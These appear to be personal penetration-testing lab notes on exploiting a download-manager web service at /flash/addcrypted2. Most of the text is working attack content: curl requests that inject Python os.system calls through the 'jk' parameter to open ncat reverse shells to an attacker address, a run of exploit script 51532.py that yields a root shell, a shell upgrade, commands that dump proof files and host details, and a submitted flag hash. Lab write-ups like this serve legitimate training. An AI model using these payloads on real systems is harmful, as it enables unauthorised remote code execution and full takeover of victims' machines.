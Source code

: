 Message shown if it is vulnerable 
![[Pasted image 20231110030519.png]]
	Could not decrypt key

Now try a reverse shell
```sh
curl -i -s -k -XPOST --data-binary 'jk=pyimport%20os;os.system("ncat%20192.168.45.241%204444%20-e%20bash");f=function%20f2(){};&package=xxx&crypted=AAAA&&passwords=aaaa' 'http://192.168.181.26:9666/flash/addcrypted2'
```
	Still closees upon connection


```sh
curl -i -s -k -XPOST --data-binary 'jk=pyimport%20os;os.system("ncat%20192.168.45.241%204444%20-e%20/bin/sh%20-c%20'echo%20WHOAMI:%20$(whoami)'");f=function%20f2(){};&package=xxx&crypted=AAAA&&passwords=aaaa' 'http://192.168.181.26:9666/flash/addcrypted2'
```
	Nope

Offsec says this curl connection test works...
```sh
curl 192.168.45.241:4444
```
	At least now it doesn't auto close and takes in one input but I do see the output

Recommended to use /bin/bash for revshells as it's more stable
```sh
ncat -e /bin/bash 192.168.45.241 4444
```

Will try with the exploit script

```sh
python 51532.py -u http://192.168.181.26:9666 -c "ncat -e /bin/bash 192.168.45.241 4444"
```
	We're in

Check Privileges 
```sh
whoami && id
```
	root
	uid=0(root) gid=0(root) groups=0(root)

Upgrade the shell for something more stable
```sh
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

## Actions On Objectives

For non-privileged access proof dump
```sh
echo " "; echo "local:"; find / -type f -name "local.txt" 2>/dev/null | xargs cat 2>/dev/null;
```

Dump all local, user, network, and proof info.
```sh
echo " "; echo "uname -a:"; uname -a; \
echo " "; echo "hostname:"; hostname; \
echo " "; echo "id"; id; \
echo " "; echo "ifconfig:"; /sbin/ifconfig -a; \
echo " "; echo "proof:"; cat /root/proof.txt 2>/dev/null; cat /Desktop/proof.txt 2>/dev/null; echo " "
```
![[Pasted image 20231110032723.png]]
Submit hash(s)
`cf9ba6ea74a7f88b3b9d3ec9e7d9a254`